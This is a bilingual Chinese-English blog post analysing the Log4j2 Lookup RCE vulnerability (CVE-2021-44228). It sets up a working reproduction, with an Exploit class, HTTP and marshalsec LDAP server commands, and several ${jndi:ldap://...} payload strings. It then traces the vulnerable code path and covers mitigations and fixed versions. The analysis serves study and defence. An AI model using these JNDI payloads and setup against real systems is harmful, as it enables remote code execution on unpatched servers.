

<iframe src="../detail-header.html" title="Github of Anigkus" style="height:0px,widht:0px;display:none" id="kusifreamheader"></iframe>

<h1 style="color:#606c71;text-align:center;" id="h1" >聊聊Log4j2的Lookup RCE漏洞</h1><br/>

[<h1 style="color:#606c71;text-align:center;" >Talk about the Lookup RCE vulnerability of Log4j2</h1><br/>]:#

<center>

</center>

[<center>]:#
[]:#
[</center>]:#

> <br/>&nbsp;&nbsp;&nbsp;&nbsp;大部分的开源的技术组件都会用到这个包,因此影响范围很大.这个漏洞是可不是一个简单的一个RCE,真的是任意远程代码执行.漏洞的原理就是利用log4j提供的一个lookup功能,可以去任意远程下载任意class文件,然后在客户端执行,想想都是非常危险的.其实这个漏洞早在11月左右就已经发现了,为啥到12月中旬才在社区完全爆发,让入不寒而栗.下面我就以我自己的理解来简单分析下此漏洞的原理和以及在相关版本的修复情况.漏洞的基本情况请看[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228).<br/>
> <br/>

[> <br/>&nbsp;&nbsp;&nbsp;&nbsp; Most of the open source technology componets will use this package, so the scope of influeence is very large. This vulnerability is not a simple RCE, it is really arbitrary remote code execution. The principle of the vulnerability is to use a lookup function provided by log4j, You can downloaded any class file remotely, and the execute it on the client, Thinking about it, it is very dangerous. In fact, this vulnerability was disconvered as early as November. I shudder. Below I will use my own understanding to briefly analyze the princple of this vulnerability and the repair situation in the relevant version. For the basic situation of the vulnerability, please see (CVE-2021-44228)(https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228). <br/>]:#
[> <br/>]:#

# 漏洞复现
[# Vulnerability to reproduce]:#

## 触发条件
[## Triggering conditions]:#

首先我要先声明以下几点:

[First let me declare the following:]:#

> 1.这个版本仅限于`2.0~2.14.1`的版本,其实`1.x`的版本也会触发,只是触发机制有点区别.<br/>
> 2.这个漏洞仅限于`error、fatal`级别的日志,其他级别的日志输出不会触发,而且就算使用占位符时也会触发.<br/>
> 3.远程去LDAP下载文件只要匹配一定的前缀就能下载,比如文件名是`Exploit`,只需要匹配`Ex`前缀也会触发.<br/>

[> 1.This version is limited to the `2.0~2.14.1` version, in fact, the `1.x` version will also trigger, but the trigger machanism is bit diferent.<br/> ]:#
[> 2.This vulnerability is limited to `error, fatal` level logs,  ohter levels of log output will not trigger, and will trigger even when placeholders are used.<br/> ]:#
[> 3.Remotly going to LDAP to download a file can be downloaded  as long as it matches a certain prefix. For example, if the file name is `Exploit`, it only needs to match the `Ex` prefix has too trigger. <br/>]:#

## 验证代码
[## Verification code]:#

首先准备以下有问题的代码,编译成class上传到http服务器根目录下(客户端).

[First prepare the following problematic code, compile it into a class and upload it to root directory of the http server (client). ]:#

```
public class Exploit {

    static {
        try {
            String [] cmd = {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"};
            Runtime.getRuntime().exec(cmd).waitFor(); //open mac calc
        }catch (Exception e){
            e.printStackTrace();
        }
    }

}
```

然后启动HTTP服务器,比如上面的(客户端).

[Then start the HTTP server, like above (client). ]:#

```
# 为了简单,我直接用python启动一个web服务器
➜  ~ mkdir -p /tmp/test/
➜  ~ cd  /tmp/test/

#任选下面一种启动http服务器即可,我本机是python3环境
➜  test python -m SimpleHTTPServer 8888 #python2
➜  test python -m http.server  8888 #python3 
```

[# For simplicity, I start a web server directly with python]:#
[# Choose one of the following to start the http server, my machine is a python3 environment]:#

<center>

</center>

再者启动LDAP服务器(客户端).

[Then start the LDAP server (client).]:#

```
#这个目录无所谓,可以不和有问题的代码在一个目录下
➜  ~ cd  /tmp/test/

#源代码自行编译
➜  test git clone https://github.com/mbechler/marshalsec

#使用已编译好的
➜  test git clone git@github.com:bkfish/Apache-Log4j-Learning.git
➜  test cd Apache-Log4j-Learning/tools
➜  test java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

[#This directory doesn't matter, it can not be in the same directory as the problematic code]:#
[#Compile the source code yourself]:#
[#Use the compiled]:#

<center>

</center>

服务端业务代码,1389是LDAP默认的端口.然后用idea启动即可,只是要把客户端的参数输出即可,比如下面的字符串是:
`${jndi:ldap://10.201.0.170:1389/#Exploit}`

[The service code, 1389 is the default port of LDAP. Then start it with idea, just output the parameters of the clint, for example, the following string is:
`${jndi:ldap://10.201.0.170:1389/#Exploit}`]:#

```
package com.github.anigkus.test;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j {

    private static Logger LOG = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        // LOG.error("${jndi:ldap://127.0.0.1:1389/#Ex}");
        LOG.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");

    }
}
```

<center>

</center>

大概的项目结构如下,然后看执行效果.

[The approximate project structure is as follows, and then see the implementation effect. ]:#

<center>

</center>

因为一直 `Exploit` 用的是 `waitFor()` ,所以如果不手动关闭计算器的程序是不会自动停止的(我只是用计算器来说明比较好模拟而已,其实任何代码都可以).

[Because `Exploit` always uses `waitFor()`, the program will not stop automatically if you don't close the calculator manually (I just use the calculator to illustrate that it is better to simulate, in fact, any code can be used). ]:#

<center>

</center>

首先Log4j中的 `lookup` 解析完会去请求LDAP服务器.

[First, after parsing the `lookup` in Log4j, it will request the LDAP server.]:#

<center>

</center>

然后LDAP会把请求转发到Http服务器去下载 `Exploit.class` 文件.

[Then LDAP will forward the request to the http server to download the `Exploit.class` file. ]:#

<center>

</center>

最终在Log4j执行下载下来的 `Exploit.class` ,然后加载到JVM中,最后运行,就触发了程序当中的代码逻辑(我这里是计算器).

[Finally, the downloaded `Exploit.class` is executed in Log4j, then loadad into the JVM, and finally run, which trigger the code logic in the program (I am a calculator here) . ]:#

## 处理流程

[## Process flow]:#

<center>

</center>

两种方式都行(有包名和无包名)

[Either way (with and without package name) ]:#

```
#OKay1(有包)
#问题代码
#把com/github/test/Exploit.class文件全路径复制到需要下载的目录下(必须是http web服务器的根目录)

#准备工作
python -m SimpleHTTPServer 8888 #python3 #必须和Exploit.class在同级根目录
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#com.github.test.Exploit"

#输出格式
LOG.error("${jndi:ldap://127.0.0.1:1389/#com}");
LOG.error("${jndi:ldap://127.0.0.1:1389/#com.github.test.Exploit}");
LOG.error("${jndi:ldap://127.0.0.1:1389/#co}");
LOG.error("xxx:{}","${jndi:ldap://127.0.0.1:1389/#co}");
```

```
#OKay2(无包)
#问题代码
#把Exploit.class文件复制到需要下载的目录下(必须是http web服务器的根目录)

#准备工作
python -m SimpleHTTPServer 8888 #python3 #必须和Exploit.class在同级目录
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"

#输出格式
LOG.error("${jndi:ldap://10.201.0.170:1389/#Exploit}”);

```

[#OKay1(With)]:#
[#Problematic Code]:#
[#Copy the full path of the com/github/test/Exploit.class file to the directory to be downloaded (must be the root directory of the http web server)]:#
[#ready to work]:#
[python -m SimpleHTTPServer 8888 #python3 #Must be in the same root directory as Exploit.class ]:#
[#Output Format]:#
[#OKay2(Without)]:#
[#Problematic Code]:#
[#Copy the Exploit.class file to the directory to be downloaded ( must be the same root directory of the http web server ) ]:#
[#Ready to work]:#
[python -m SimpleHTTPServer 8888 #python3 #Must be in the same root dirctory Exploit.class]:#
[#Output Format]:#

# 漏洞分析

[Vulnerability Analysis]:#

&nbsp;&nbsp;&nbsp;&nbsp;现在我们从运行时的堆栈中来分析下源码类中大致的调用逻辑,我将从`log.error(message)`方法去一步步分析问题(`fatal`类似).我只会说下主要的类和代码片段,我使用的`logo-core`是`2.14.1`的版本,其他版本会有一点差异,但是核心漏洞的执行的代码逻辑是一样的.我会跳过一些方法,主要还是分析一些重要步骤.
`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`


[&nbsp;&nbsp;&nbsp;&nbsp;Now let's analysis general calling logic in the source code class the runtime stack, i will analysis the problem step by step from the `log.error(message)` method (`fatal` is similar). I will only talk about the main classes and code snippets. The `logo-core` i use is version `2.14.1`. Other versions will be slightly differenet, but the code logic of the core vulnerability execution is the same. I will skip some nethods. Mainly analyze some important steps. ]:#
[`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`]:#


<center>

</center>

当前类中的`noLookups`是个`boolean`类型,在当前类的构造函数中是对应的是`org.apache.logging.log4j.core.util.Constants#FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`的值.由于默认是没有设置,也就是`False`,因此就进入的下面的`org.apache.logging.log4j.core.lookup.StrSubstitutor#substitute(org.apache.logging.log4j.core.LogEvent, java.lang.StringBuilder, int, int, java.util.List<java.lang.String>)`方法,省略部分内容.


[The `noLookups` in the current class is a `boolean` type, which corresponds to the value of `org.apache.logging.log4j.core.util.Constants#FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` in the constructor of the current class. Since it is not set by default, That is `False`, so enter the following `org.apache.logging.log4j.core.lookup.StrSubstitutor#substitute(org.apache.logging.log4j.core.LogEvent, java.lang.StringBuilder, int, int, java.util.List<java.lang.String>)` method, omitting part of the content. ]:#


```
/...
// resolve the variable
String varValue = resolveVariable(event, varName, buf, startPos, endPos);
if (varValue == null) {
    varValue = varDefaultValue;
}
//...
```

然后进入`resolveVariable`方法中,加载所有`StrLookup`所有的实现类,然后根据字符串的`:`分割,判断使用哪个JNDI实现类,现在使用的是`JndiLookup`.

[Then enter the `resolveVariable` method, load all the  implementation classes of `StrLookup`, and then according to the `:` split of th string,determine which JNDI implementation class to use, and now use `JndiLookup`. ]:#

```
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf,
                                 final int startPos, final int endPos) {
    final StrLookup resolver = getVariableResolver();
    if (resolver == null) {
        return null;
    }
    return resolver.lookup(event, variableName);
}
```

<center>

</center>

进入`org.apache.logging.log4j.core.lookup.JndiLookup#lookup`方法.

[Enter the `org.apache.logging.log4j.core.lookup.JndiLookup#lookup` method. ]:#

```
@Override
public String lookup(final LogEvent event, final String key) {
    if (key == null) {
        return null;
    }
    final String jndiName = convertJndiName(key);
    try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
        return Objects.toString(jndiManager.lookup(jndiName), null);
    } catch (final NamingException e) {
        LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, e);
        return null;
    }
}
```

进入`org.apache.logging.log4j.core.net.JndiManager#lookup`方法中.这个方法中的`context`就是JDK自带的`InitialContext`类,然后调用`InitialContext#lookup`方法,然后就一步步去请求参数中的地址,并下载class文件,然后实例化并加载jvm内存中,从而达到RCE的逻辑.这时候已经在clinet的jvm中执行的需要执行的逻辑,已经完成的从<font color="red">解析字符串—>请求LDAP—>下载Class—>加载Class</font>等一系列行为.


[Enter the `org.apache.logging.log4j.core.net.JndiManager#lookup` method. The `context` in this method is the `InitialContext` class that comes with the JDK, and then call the `InitialContext#lookup` method, and then the next step by step to request the address  in the parameter, and download the class file, the instantiate and load it into the jvm memory, so as to achieve the logic of RCE. At this time, the logic to be executed that has been executed in the jvm of the client has been completed from <font color="red">Parse string->Request LDAP->Download Class->Load Classs</font> and a series of actions.]:#


```
@SuppressWarnings("unchecked")
public <T> T lookup(final String name) throws NamingException {
    return (T) this.context.lookup(name);
}
```

<center>

</center>

# 漏洞修复
[# Bugfix ]:#

&nbsp;&nbsp;&nbsp;&nbsp;现在我们来看看社区是怎么修复这个问题,首先刚开时社区提供的思路是以下2种:

[&nbsp;&nbsp;&nbsp;&nbsp; Now let's take a look at how the community fixes this problem. First of all, the ideas provided by the community at the beginning are the following two: ]:#

## 1.加参数
&nbsp;&nbsp;&nbsp;&nbsp;如JVM启动参数`(-Dlog4j2.formatMsgNoLookups=true)`、系统环境变量`(LOG4J_FORMAT_MSG_NO_LOOKUPS=true)`、修改配置`(log4j2.component.properties)`三种,加参数的方法如果在业务上确实没有用到`lookup`功能,并且可以保持一直不忘记添加这个参数,其实是可以避免的,但是也还是存在隐患的.

[## 1.Add parameter]:#
[&nbsp;&nbsp;&nbsp;&nbsp;such as JVM startup parameter `(-Dlog4j2.formatMsgNoLookups=true)`, system environment variable `(LOG4J_FORMAT_MSG_NO_LOOKUPS=true)`, modify configuration `(log4j2.component.properties)`, add parameters If you really don't use the `lookup` function in the business, and you can keep adding this parameter all the time, it can be avoided, but there are still hidden dangers. ]:#

## 2.删除类
&nbsp;&nbsp;&nbsp;&nbsp;删除`JndiLookup`,但是如果对`log4j-core`不太了解的情况下,直接删除这个类,是风险很大的,比如项目运行好好的,这个log4j工程又不是自己公司开发的,里面到底有啥问题,根本hold不住,用如下命令删除:

[## 2.Delete class]:#
[&nbsp;&nbsp;&nbsp;&nbsp;Delete `JndiLookup`, but if you don't know much about `log4j-core`, it is very riskly to delete this class directly. for example, the project is running well, this log4j project is not you own company Developed, what is the problem in it , it can't be hold it at all, delete it with the following command: ]:#

```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```
###### &nbsp;

其实这个漏洞最终在`2.15.0`的版本中已经修复完成,后面再次出现的的漏洞已经不是 `Lookup` 漏洞,但是也是RCE漏洞.
* 2.16.0([CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046))[修复信息泄露和远程代码执行],[复现](https://cloud.tencent.com/developer/article/1924041).
* 2.17.0([CVE-2021-45105](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45105))[DOS攻击],[复现](https://blog.csdn.net/hilaryfrank/article/details/122046202).

[In fact, this vulnerability has finally been fixed in version `2.15.0`, and the vulnerability that appears again later is no looger a `Lookup` vulnerability, but is also an RCE vulnerability. ]:#
[* 2.16.0(??CVE-2021-45046??(https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046))??Fix information disclosure and remote code execution??,??reproduce??(https://cloud.tencent.com/developer/article/1924041).]:#
[* 2.17.0(??CVE-2021-45105??(https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45105))??DOS attack??,??reproduce??(https://blog.csdn.net/hilaryfrank/article/details/122046202).]:#

具体怎么复现可以看上面两个CVE的复现链接资料,我就不在此多此一举了.以下是一些`2.15.0`里面的代码截图,这个参数是去掉引用了(后续没用了).

[For detail on how to reproduce, you can refer to the reproduced link information of the above two CVEs, and i will not repeat them here. The following are some code screenshots in `2.15.0`. This parameter is dereferenced (it will be useless later). ]:#

<center>

</center>

在`org.apache.logging.log4j.core.net.JndiManager#lookup`方法已经限制只能是本机可以查找的特定的类(8大基本类型).

[In the `org.apache.logging.log4j.core.net.JndiManager#lookup` method has been limited to  only the specifie classes (8 basic types) that the local can look up. ]:#

<center>

</center>

<center>

</center>

<center>

</center>

在`2.15.0~2.16.0`开始,JNDI的LDAP地址只能是本机并且相关类也做了限制,而从`2.17.0`,JNDI只能是Java协议,去掉了LDAP协议支持.

[From `2.15.0~2.16.0` , the LDAP address of JNDI can only be the local machine and related classes are also restricted, From `2.17.0`, JNDI can only be the Java Protocl, and the LDAP support is removed. ]:#


<br>

### [back](./)
